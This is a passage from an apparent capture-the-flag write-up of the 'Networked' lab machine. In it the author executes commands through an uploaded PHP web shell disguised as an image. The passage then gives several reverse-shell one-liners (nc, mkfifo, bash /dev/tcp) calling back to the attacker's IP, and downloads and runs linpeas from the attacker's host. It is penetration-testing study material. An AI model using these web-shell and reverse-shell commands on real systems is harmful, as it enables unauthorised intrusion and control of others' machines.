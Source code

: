 ```bash
http://10.10.10.141/uploads/10_10_16_7.php.jpg
```

We get a blank page and don’t see our php code. That’s a good sign, as it might indicate our php code is rendered and executed. Let’s go on burp and pass a command:

```bash
http://10.10.10.141/uploads/10_10_16_7.php.jpg?cmd=id
```

![image.png]({{ site.baseurl }}/assets/networked/image%206.png)

We get a response back stating we are user apache. Now let’s get a reverse shell:

```bash
#start a listener
nc -lnvp 4444

#execute reverse shell, don't forget to URL encode
cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 4444>/tmp/f

nc -e /bin/sh 10.10.16.7 4444

bash -c 'sh -i >& /dev/tcp/10.10.16.9/9001 0>&1'
```

The third one worked.

Let’s upgrade shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png]({{ site.baseurl }}/assets/networked/image%207.png)

## Privilege Escalation to guly

Nothing from basic enumeration, not in privileged groups or part of sudoers. Let’s enumerate with linpeas:

```bash
cd /dev/shm
curl -o linpeas.sh http://10.10.16.7:8001/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

```bash
                ╔════════════════════════════════════════════════╗                                                                                       
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                                                                       
                ╚════════════════════════════════════════════════╝ 
                
                
root       3306  0.0  2.9 358288 29100 ?        Ssl  14:30   0:00 /usr/bin/python -Es /usr/sbin/firewalld --nofork --nopid
root       3349  0.0  0.1 126284  1592 ?        Ss   14:30   0:00 /usr/sbin/crond -n
root       3352  0.0  0.0 110104   872 tty1     Ss+  14:30   0:00 /sbin/agetty --noclear tty1 linux
root       3731  0.0  1.9 573924 19172 ?        Ssl  14:30   0:01 /usr/bin/python2 -Es /usr/sbin/tuned -l -P
root       3733  0.0  0.4 112864  4352 ?        Ss   14:30   0:00 /usr/sbin/sshd -D
root       3735  0.0  0.4 214444  4856 ?        Ssl  14:30   0:00 /usr/sbin/rsyslogd -n
root       3950  0.0  0.2 111196  2396 ?        Ss   14:31   0:00 sendmail: accepting connections
smmsp      3965  0.0  0.2 106620  2032 ?        Ss   14:33   0:00 sendmail: Queue runner@01:00:00 for /var/spool/clientmqueue
root       4113  0.0  0.1 125384  1116 ?        Ss   15:01   0:00 /usr/sbin/anacron -s
```